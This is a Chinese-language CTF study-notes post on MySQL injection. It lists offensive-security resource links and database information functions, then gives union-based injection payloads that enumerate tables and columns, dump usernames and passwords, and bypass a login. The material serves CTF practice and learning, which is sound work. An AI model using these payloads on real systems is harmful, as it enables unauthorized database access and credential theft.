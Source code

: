 title: CTF学习笔记
tags:
  - web知识点
categories:
  - CTF
author: bmth
top_img: 'https://img-blog.csdnimg.cn/20210304213923323.png'
cover: 'https://img-blog.csdnimg.cn/20210304213923323.png'
date: 2020-10-27 17:53:00
---
## web
[狼组安全团队公开知识库](https://wiki.wgpsec.org)
[红方人员实战手册](https://github.com/klionsec/RedTeamer)
[Web安全攻防实战系列](https://github.com/hongriSec/Web-Security-Attack)
[Web安全学习笔记](https://websec.readthedocs.io/zh/latest/index.html)
[https://www.vulnhub.com](https://www.vulnhub.com)
[Vulhub - Docker-Compose file for vulnerability environment](https://vulhub.org)
[https://github.com/w181496/Web-CTF-Cheatsheet](https://github.com/w181496/Web-CTF-Cheatsheet)
### Mysql注入
数据库的一些重要的信息：
```
version():数据库的版本
database():当前所在的数据库
@@basedir:数据库的安装目录
@@datadir:数据库文件的存放目录
user():数据库的用户
current_user():当前用户名
system_user():系统用户名
session_user():连接到数据库的用户名
```
#### 四大注入
##### 联合注入
```sql
-1' order by 3#
-1' union select 1,2,3--+
-1' union select 1,user(),database()--+
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
-1' union select 1,2,group_concat(username,password) from users--+
```

**在联合查询并不存在的数据时，联合查询就会构造一个虚拟的数据**

union select实现登录：

```sql
username：0' union select 1,'admin','47bce5c74f589f4867dbd57e9ca9f808'#
password：aaa
```
##### 报错注入
MySQL的报错注入主要是利用MySQL的一些逻辑漏洞，如BigInt大数溢出等，由此可以将MySQL报错注入分为以下几类：
